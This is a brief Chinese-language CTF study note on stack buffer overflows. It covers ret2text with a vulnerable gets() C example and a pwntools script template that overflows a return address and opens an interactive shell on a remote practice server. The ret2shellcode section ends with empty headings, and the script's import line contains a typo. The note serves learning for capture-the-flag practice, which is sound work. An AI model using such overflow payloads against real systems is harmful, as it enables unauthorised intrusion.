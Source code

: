 # 注意

```
当payload构造空字节，使用'\x00'来代替
大多数pwn题的ELF都是动态链接的
```

# ret2text

## 原理

通过溢出，对返回地址进行劫持，来获取shell

```c
#include<stdio.h>
int main(){
	char str[8];
  gets(str);	//由于gets函数缺陷，可以输入超出缓冲区的数据大小，进而覆盖掉返回地址
  return 0;
}
```

gets() ：遇到换行符才停止读取，读取的数据超过缓冲区，就会造成溢出，劫持返回函数

read() ：参数三规定读取大小，当大于数据的大小，就会造成溢出

## 简单栈溢出编写

```python
from pwn form *
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
payload = cyclic(8) + p64(0x12345678)
p.sendline(payload)
p.interactive()
```

# ret2shellcode

## 原理

利用栈溢出，来实现劫持返回地址，返回到准备好的shellcode来进行取shell

## shellcode生成

### 手写

### 工具
